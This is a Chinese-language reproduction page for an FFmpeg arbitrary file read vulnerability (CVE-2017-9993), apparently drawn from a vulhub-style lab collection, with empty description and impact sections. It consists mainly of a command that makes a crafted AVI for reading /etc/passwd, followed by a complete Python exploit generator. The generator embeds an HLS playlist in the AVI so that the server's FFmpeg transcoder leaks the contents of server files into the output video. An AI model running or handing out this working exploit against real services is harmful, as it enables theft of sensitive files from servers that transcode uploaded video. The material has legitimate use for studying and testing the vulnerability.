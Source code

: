 Ffmpeg 任意文件读取漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

使用exp生成payload

    ./gen_xbin_avi.py file:///etc/passwd exp.avi

生成exp.avi，在`http://www.0-sec.org:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：

![](resource/(CVE-2017-9993)Ffmpeg任意文件读取漏洞/media/rId24.png)

### poc

    #!/usr/bin/env python3
    import struct
    import argparse
    import random
    import string

    AVI_HEADER = b"RIFF\x00\x00\x00\x00AVI LIST\x14\x01\x00\x00hdrlavih8\x00\x00\x00@\x9c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00}\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LISTt\x00\x00\x00strlstrh8\x00\x00\x00txts\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00}\x00\x00\x00\x86\x03\x00\x00\x10'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\xa0\x00strf(\x00\x00\x00(\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x01\x00\x18\x00XVID\x00H\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LIST    movi"

    ECHO_TEMPLATE = """### echoing {needed!r}
    #EXT-X-KEY: METHOD=AES-128, URI=/dev/zero, IV=0x{iv}
    #EXTINF:1,
    #EXT-X-BYTERANGE: 16
    /dev/zero
    #EXT-X-KEY: METHOD=NONE
    """

    # AES.new('\x00'*16).decrypt('\x00'*16)
    GAMMA = b'\x14\x0f\x0f\x10\x11\xb5"=yXw\x17\xff\xd9\xec:'

    FULL_PLAYLIST = """#EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    {content}
    #### random string to prevent caching: {rand}
    #EXT-X-ENDLIST"""

    EXTERNAL_REFERENCE_PLAYLIST = """
    ####  External reference: reading {size} bytes from {filename} (offset {offset})
    #EXTINF:1,
    #EXT-X-BYTERANGE: {size}@{offset}
    {filename}
    """

    XBIN_HEADER = b'XBIN\x1A\x20\x00\x0f\x00\x10\x04\x01\x00\x00\x00\x00'


    def echo_block(block):
        assert len(block) == 16
        iv = ''.join(map('{:02x}'.format, [x ^ y for (x, y) in zip(block, GAMMA)]))
        return ECHO_TEMPLATE.format(needed=block, iv=iv)


    def gen_xbin_sync():
        seq = []
        for i in range(60):
            if i % 2:
                seq.append(0)
            else:
                seq.append(128 + 64 - i - 1)
        for i in range(4, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        for i in range(12, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        return seq


    def test_xbin_sync(seq):
        for start_ind in range(64):
            path = [start_ind]
            cur_ind = start_ind
            while cur_ind < len(seq):
                if seq[cur_ind] == 0:
                    cur_ind += 3
                else:
                    assert seq[cur_ind] & (64 + 128) == 128
                    cur_ind += (seq[cur_ind] & 63) + 3
                path.append(cur_ind)
            assert cur_ind == len(seq), "problem for path {}".format(path)


    def echo_seq(s):
        assert len(s) % 16 == 0
        res = []
        for i in range(0, len(s), 16):
            res.append(echo_block(s[i:i + 16]))
        return ''.join(res)


    test_xbin_sync(gen_xbin_sync())

    SYNC = echo_seq(gen_xbin_sync())


    def make_playlist_avi(playlist, fake_packets=1000, fake_packet_len=3):
        content = b'GAB2\x00\x02\x00' + b'\x00' * 10 + playlist.encode('ascii')
        packet = b'00tx' + struct.pack('<I', len(content)) + content
        dcpkt = b'00dc' + struct.pack('<I',
                                      fake_packet_len) + b'\x00' * fake_packet_len
        return AVI_HEADER + packet + dcpkt * fake_packets


    def gen_xbin_packet_header(size):
        return bytes([0] * 9 + [1] + [0] * 4 + [128 + size - 1, 10])


    def gen_xbin_packet_playlist(filename, offset, packet_size):
        result = []
        while packet_size > 0:
            packet_size -= 16
            assert packet_size > 0
            part_size = min(packet_size, 64)
            packet_size -= part_size
            result.append(echo_block(gen_xbin_packet_header(part_size)))
            result.append(
                EXTERNAL_REFERENCE_PLAYLIST.format(
                    size=part_size,
                    offset=offset,
                    filename=filename))
            offset += part_size
        return ''.join(result), offset


    def gen_xbin_playlist(filename_to_read):
        pls = [echo_block(XBIN_HEADER)]
        next_delta = 5
        for max_offs, filename in (
                (5000, filename_to_read), (500, "file:///dev/zero")):
            offset = 0
            while offset < max_offs:
                for _ in range(10):
                    pls_part, new_offset = gen_xbin_packet_playlist(
                        filename, offset, 0xf0 - next_delta)
                    pls.append(pls_part)
                    next_delta = 0
                offset = new_offset
            pls.append(SYNC)
        return FULL_PLAYLIST.format(content=''.join(pls), rand=''.join(
            random.choice(string.ascii_lowercase) for i in range(30)))


    if __name__ == "__main__":
        parser = argparse.ArgumentParser('AVI+M3U+XBIN ffmpeg exploit generator')
        parser.add_argument(
            'filename',
            help='filename to be read from the server (prefix it with "file://")')
        parser.add_argument('output_avi', help='where to save the avi')
        args = parser.parse_args()
        assert '://' in args.filename, "ffmpeg needs explicit proto (forgot file://?)"
        content = gen_xbin_playlist(args.filename)
        avi = make_playlist_avi(content)
        output_name = args.output_avi

        with open(output_name, 'wb') as f:
            f.write(avi)

参考链接
--------

> https://vulhub.org/\#/environments/ffmpeg/phdays/
